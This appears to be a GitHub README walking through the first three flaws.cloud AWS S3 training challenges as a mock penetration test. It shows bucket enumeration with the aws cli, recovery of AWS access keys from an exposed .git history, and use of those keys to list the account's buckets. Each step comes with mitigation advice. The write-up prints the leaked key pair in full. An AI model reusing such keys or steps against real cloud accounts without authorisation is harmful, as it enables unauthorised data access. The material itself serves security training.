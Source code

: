 # AWS S3 Security Challenges

## Abstract
*Amazon Simple Storage Service* (Amazon `S3`) is a highly scalable and versatile cloud storage service offered by Amazon Web Services (`AWS`).  
It allows organizations to store and retrieve vast amounts of data, making it an integral component of modern cloud computing infrastructures.  
*Security* is of paramount importance when it comes to S3, as it stores critical data for businesses and individuals alike.  
S3 security measures are crucial to protect sensitive information from unauthorized access, data breaches, and accidental exposure.  
AWS offers a range of security features, such as access control lists, bucket policies, and encryption, to ensure that data stored  
in S3 remains confidential, integrity is maintained, and accessibility is well-controlled.  
Establishing robust S3 security practices is essential for safeguarding valuable digital assets in the cloud.  

<br/>

In this repository, we will explore a series of challenges related to S3 by leveraging [flaws.cloud](http://flaws.cloud).  

## Prerequisites
- [aws cli](https://aws.amazon.com/cli/)
- [aws account](https://aws.amazon.com/free/?trk=94cafeff-9d62-4c32-8799-45290b4f160b&sc_channel=ps&ef_id=EAIaIQobChMIrtnukMWxggMVVIVoCR1cRgT0EAAYASAAEgJfl_D_BwE:G:s&s_kwcid=AL!4422!3!566381912849!p!!g!!account%20aws!15451025651!135687769812&all-free-tier.sort-by=item.additionalFields.SortRank&all-free-tier.sort-order=asc&awsf.Free%20Tier%20Types=*all&awsf.Free%20Tier%20Categories=*all) (you can leverage a free trial account)  


## Challenges  
> **Note**
> To add depth and realism to the scenario, we will structure our challenge by assuming that flaws.cloud is a web service  
> for which a customer has requested a black box Vulnerability Assessment & Penetration Testing (VAPT).  
> In this approach, we will have no prior information beyond the target domain, making the engagement more challenging and realistic.

<details>
<summary>Challenge 1</summary>

L'ets begin.  
As we are aware, the only information available to us is that the service is exposed at the URL http://flaws.cloud:  

<img src="images/flaws-website.png" alt="flaws.cloud" width="3000" height="290">  


The initial step we can take is to perform a DNS lookup to gather additional information:  
```console
nslookup flaws.cloud

Server:		192.168.1.1
Address:	192.168.1.1#53

Non-authoritative answer:
Name:	flaws.cloud
Address: 52.218.251.58
Name:	flaws.cloud
Address: 52.92.164.35
Name:	flaws.cloud
Address: 52.218.183.19
Name:	flaws.cloud
Address: 52.92.229.67
Name:	flaws.cloud
Address: 52.218.179.83
Name:	flaws.cloud
Address: 52.92.148.203
Name:	flaws.cloud
Address: 52.92.250.3
Name:	flaws.cloud
Address: 52.92.177.187
```  
The reason why the `nslookup` command returns multiple IP addresses for a domain is because many websites  
and services are hosted on multiple servers for redundancy and load balancing.  
This means that the same domain name (in this case, "flaws.cloud") can resolve to multiple IP addresses.  

The purpose of this approach is to ensure high availability and better distribution of traffic.  
Let's take a random IP address from the list and try to execute a DNS lookup on that:  
```console
nslookup 52.92.148.203

Server:		192.168.1.1
Address:	192.168.1.1#53

Non-authoritative answer:
203.148.92.52.in-addr.arpa	name = s3-website-us-west-2.amazonaws.com.
```  

This is an interesting information.  
`name = s3-website-us-west-2.amazonaws.com`: This line provides the result of the reverse DNS lookup.  
It reveals that the IP address `52.92.148.203` is associated with the domain name `s3-website-us-west-2.amazonaws.com`.  
This means that if you were to access the URL associated with this IP address, it would likely lead you to an Amazon Web Services (AWS) `S3`  
website hosted in the US West (Oregon) region.  
The same DNS lookup result applies to every other IP addresses taken from the above output.  


> **Note**
> All S3 buckets, when configured for web hosting, are given an AWS domain you can use to browse to it without setting up your own DNS.  
> In this case, flaws.cloud can also be visited by going to http://flaws.cloud.s3-website-us-west-2.amazonaws.com/  

Let's do a recap of what we know so far:  
We know that we have a bucket named `flaws.cloud` in `us-west-2`  
<br/>

Given that, we can attempt to browse the bucket by using the aws cli by running:  
```console
aws s3 ls s3://flaws.cloud

2017-03-14 04:00:38       2575 hint1.html
2017-03-03 05:05:17       1707 hint2.html
2017-03-03 05:05:11       1101 hint3.html
2020-05-22 20:16:45       3162 index.html
2018-07-10 18:47:16      15979 logo.png
2017-02-27 02:59:28         46 robots.txt
2017-02-27 02:59:30       1051 secret-dd02c7c.html
```  
Very good, we are able to list this bucket contents!  
Feel free to take a look at all the files in the bucket...  
the most interesting one seems to be `secret-dd02c7c.html`, let's inspect this:  
```html
aws s3 cp s3://flaws.cloud/secret-dd02c7c.html -

<html>
    <head>
        <title>flAWS</title>
        <META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW">
        <style>
            body { font-family: Andale Mono, monospace; }
            :not(center) > pre { background-color: #202020; padding: 4px; border-radius: 5px; border-color:#00d000;
            border-width: 1px; border-style: solid;}
        </style>
    </head>
<body
  text="#00d000"
  bgcolor="#000000"
  style="max-width:800px; margin-left:auto ;margin-right:auto"
  vlink="#00ff00" link="#00ff00">

<center>
<pre >
 _____  _       ____  __    __  _____
|     || |     /    ||  |__|  |/ ___/
|   __|| |    |  o  ||  |  |  (   \_
|  |_  | |___ |     ||  |  |  |\__  |
|   _] |     ||  _  ||  `  '  |/  \ |
|  |   |     ||  |  | \      / \    |
|__|   |_____||__|__|  \_/\_/   \___|
</pre>

<h1>Congrats! You found the secret file!</h1>
</center>


Level 2 is at <a href="http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud">http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud</a>%
```  

The content of the file displays the link to the next challenge. Well done!  

**Security Mitigations**:  
We need to explain to our customer that on AWS you can set up S3 buckets with all sorts of permissions and functionality including using them to host static files.  
A number of people accidentally open them up with permissions that are too loose.  
By default, S3 buckets are private and secure when they are created.  
To allow it to be accessed as a web page, you have to turn on `Static Website Hosting` and changed the aws  
bucket policy to allow everyone `s3:GetObject` privileges, which is fine if you plan to publicly host the bucket as a web page.  
But then you can introduce the flaw if you change the permissions to add `Everyone` to have `List` permissions.

> **Warning**
> "Everyone" means everyone on the Internet!



</details>

<br/>

<details>
<summary>Challenge 2</summary>

Now we can procede with the second challenge.  

> **Note**
> This challenge is similar to the first one but you will need an aws accout.  


We know that the link to the new bucket is http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud.  
Once you have your aws cli configured with keys from your aws account, let's try to list all the files in the bucket:  
```console
aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud

2017-02-27 03:02:15      80751 everyone.png
2017-03-03 04:47:17       1433 hint1.html
2017-02-27 03:04:39       1035 hint2.html
2017-02-27 03:02:14       2786 index.html
2017-02-27 03:02:14         26 robots.txt
2017-02-27 03:02:15       1051 secret-e4443fc.html
```  

Once again we notice that there is a *secret* html file, let's cat is content:  

aws s3 cp s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html -  
```html
<html>
    <head>
        <title>flAWS</title>
        <META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW">
        <style>
            body { font-family: Andale Mono, monospace; }
            :not(center) > pre { background-color: #202020; padding: 4px; border-radius: 5px; border-color:#00d000;
            border-width: 1px; border-style: solid;}
        </style>
    </head>
<body
  text="#00d000"
  bgcolor="#000000"
  style="max-width:800px; margin-left:auto ;margin-right:auto"
  vlink="#00ff00" link="#00ff00">

<center>
<pre >
 _____  _       ____  __    __  _____
|     || |     /    ||  |__|  |/ ___/
|   __|| |    |  o  ||  |  |  (   \_
|  |_  | |___ |     ||  |  |  |\__  |
|   _] |     ||  _  ||  `  '  |/  \ |
|  |   |     ||  |  | \      / \    |
|__|   |_____||__|__|  \_/\_/   \___|
</pre>

<h1>Congrats! You found the secret file!</h1>
</center>


Level 3 is at <a href="http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud">http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud</a>%
```   

The content of the file displays the link to the next challenge. Well done!  

**Security Mitigations**:  
We need to explain to our customer that similar to opening permissions to `Everyone` in the previous bucket/challenge, people accidentally open permissions to `Any Authenticated AWS User`.  

> **Warning**
> They might mistakenly think this will only be users of their account, when in fact it means anyone that has an AWS account!



</details>

<br/>

<details>
<summary>Challenge 3</summary>

Now we can procede with the third challenge.  
We know that the link to the new bucket is http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud.  
Once you have your aws cli configured with keys from your aws account, let's try to list all the files in the bucket:  
```console
aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud  

                           PRE .git/
2017-02-27 01:14:33     123637 authenticated_users.png
2017-02-27 01:14:34       1552 hint1.html
2017-02-27 01:14:34       1426 hint2.html
2017-02-27 01:14:35       1247 hint3.html
2017-02-27 01:14:33       1035 hint4.html
2020-05-22 20:21:10       1861 index.html
2017-02-27 01:14:33         26 robots.txt
```  
This time we notice something different: there is a `.git` folder!  
A `.git` folder within a directory typically indicates that the directory is a Git repository.  
`Git` is a distributed version control system commonly used for tracking changes in source code and managing collaborative software development projects.  
The `.git` folder contains all the information and data necessary for Git to manage version control for the files and directories within that repository.  
It includes information about commits, branches, history, configuration settings, and more.  
There are probably interesting things in this folder...let's download the full bucket content with the following command:  
```console
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --region us-west-2

download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/HEAD to .git/HEAD
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/description to .git/description
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/config to .git/config
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/COMMIT_EDITMSG to .git/COMMIT_EDITMSG
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/applypatch-msg.sample to .git/hooks/applypatch-msg.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/pre-applypatch.sample to .git/hooks/pre-applypatch.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/post-update.sample to .git/hooks/post-update.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/commit-msg.sample to .git/hooks/commit-msg.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/pre-commit.sample to .git/hooks/pre-commit.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/pre-rebase.sample to .git/hooks/pre-rebase.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/prepare-commit-msg.sample to .git/hooks/prepare-commit-msg.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/update.sample to .git/hooks/update.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/2f/c08f72c2135bb3af7af5803abb77b3e240b6df to .git/objects/2f/c08f72c2135bb3af7af5803abb77b3e240b6df
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/index to .git/index
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/info/exclude to .git/info/exclude
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/0e/aa50ae75709eb4d25f07195dc74c7f3dca3e25 to .git/objects/0e/aa50ae75709eb4d25f07195dc74c7f3dca3e25
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/61/a5ff2913c522d4cf4397f2500201ce5a8e097b to .git/objects/61/a5ff2913c522d4cf4397f2500201ce5a8e097b
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/b6/4c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 to .git/objects/b6/4c8dcfa8a39af06521cf4cb7cdce5f0ca9e526
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/logs/HEAD to .git/logs/HEAD
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/logs/refs/heads/master to .git/logs/refs/heads/master
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/53/23d77d2d914c89b220be9291439e3da9dada3c to .git/objects/53/23d77d2d914c89b220be9291439e3da9dada3c
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/db/932236a95ebf8c8a7226432cf1880e4b4017f2 to .git/objects/db/932236a95ebf8c8a7226432cf1880e4b4017f2
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/92/d5a82ef553aae51d7a2f86ea0a5b1617fafa0c to .git/objects/92/d5a82ef553aae51d7a2f86ea0a5b1617fafa0c
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/f5/2ec03b227ea6094b04e43f475fb0126edb5a61 to .git/objects/f5/2ec03b227ea6094b04e43f475fb0126edb5a61
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint2.html to ./hint2.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint1.html to ./hint1.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint3.html to ./hint3.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/c2/aab7e03933a858d1765090928dca4013fe2526 to .git/objects/c2/aab7e03933a858d1765090928dca4013fe2526
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/index.html to ./index.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/robots.txt to ./robots.txt
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/76/e4934c9de40e36f09b4e5538236551529f723c to .git/objects/76/e4934c9de40e36f09b4e5538236551529f723c
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint4.html to ./hint4.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/refs/heads/master to .git/refs/heads/master
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/e3/ae6dd991f0352cc307f82389d354c65f1874a2 to .git/objects/e3/ae6dd991f0352cc307f82389d354c65f1874a2
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/f2/a144957997f15729d4491f251c3615d508b16a to .git/objects/f2/a144957997f15729d4491f251c3615d508b16a
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/authenticated_users.png to ./authenticated_users.png
```  
Now we are inside the git folder and we can inspect git logs:  
```console
git log

commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
```  
The log shows 2 commit and one have a suspicious message associated with it: `Oops, accidentally added something I shouldn't have`.  
Let's checkout the commit before that and take a look around at that point in the git history:  
```console
git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61 && ls

M	index.html
Note: switching to 'f52ec03b227ea6094b04e43f475fb0126edb5a61'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by switching back to a branch.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -c with the switch command. Example:

  git switch -c <new-branch-name>

Or undo this operation with:

  git switch -

Turn off this advice by setting config variable advice.detachedHead to false

HEAD is now at f52ec03 first commit

access_keys.txt         authenticated_users.png hint1.html              hint2.html              hint3.html              hint4.html              index.html              robots.txt
```  

Interesting...there is an access_keys.txt file in the repository!  
Let's inspect that:  
```console
cat access_keys.txt

access_key AKIAJ366LIPB4IJKT7SA
secret_access_key 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
```  
It's a good day to be a pentester, we found a set of aws [keys](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_credentials_access-keys.html)!  

let's use them to see if we can do something!  
```console
export AWS_ACCESS_KEY_ID=AKIAJ366LIPB4IJKT7SA
export AWS_SECRET_ACCESS_KEY=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
aws sts get-caller-identity

{
    "UserId": "AIDAJQ3H5DC3LEG2BKSLC",
    "Account": "975426262029",
    "Arn": "arn:aws:iam::975426262029:user/backup"
}

```  

The output of the above command shows that we are now impersonating the `arn:aws:iam::975426262029:user/backup` [IAM](https://aws.amazon.com/iam/?trk=e7f9b09d-7bd6-4855-9dba-72c6bc2af630&sc_channel=ps&ef_id=EAIaIQobChMI6M_L-dKxggMVblBBAh1FEw9aEAAYASAAEgL2Z_D_BwE:G:s&s_kwcid=AL!4422!3!651510173475!e!!g!!amazon%20iam!19828210056!146491523705) identity.  
This is a user from the customer's aws account!  
Let's check the user attached policies:  
```console

aws iam list-attached-user-policies --user-name backup

An error occurred (AccessDenied) when calling the ListAttachedUserPolicies operation: User: arn:aws:iam::975426262029:user/backup is not authorized to perform: iam:ListAttachedUserPolicies on resource: user backup because no identity-based policy allows the iam:ListAttachedUserPolicies action
```  
We are not lucky this time but maybe with can list more bucket with the current identity:  
```console
aws s3 ls

2020-06-25 19:43:56 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
2020-06-27 01:06:07 config-bucket-975426262029
2020-06-27 12:46:15 flaws-logs
2020-06-27 12:46:15 flaws.cloud
2020-06-27 17:27:14 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2020-06-27 17:27:14 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
2020-06-27 17:27:14 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
2020-06-27 17:27:15 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
2020-06-27 17:27:15 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
2020-06-28 04:29:47 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
```  
Yes! We can list buckets that we couldn't before!  
Now we know where `level4` is located.  

**Security Mitigations**:  
We need to explain to our customer that People often leak AWS keys and then try to cover up their mistakes without revoking the keys.  
You should always revoke any AWS keys (or any secrets) that could have been leaked or were misplaced.  
Roll your secrets early and often and [use roles instead of keys whenever possible](https://docs.aws.amazon.com/IAM/latest/UserGuide/best-practices.html).  

> **Warning**
> If sensitive information or secrets are accidentally leaked and committed to a Git repository, simply removing them in a new commit is not sufficient.  
> These secrets can still exist in the repository's history, and they may be accessible to anyone with access to that repository.  
> If you accidentally committed a secret, consider rewriting your Git history to remove any traces of it.  
> Tools like git-filter-branch and git-rebase can help, but use them with caution as they can be complex and have implications on collaboration.  



</details>

<br/>

<details>
<summary>Challenge 4</summary>

Now we can procede with challenge 4.  
We know that the link to the new bucket is http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud.  
Once you have your aws cli configured with keys from your aws account, let's try to list all the files in the bucket:  


</details>

<br/>


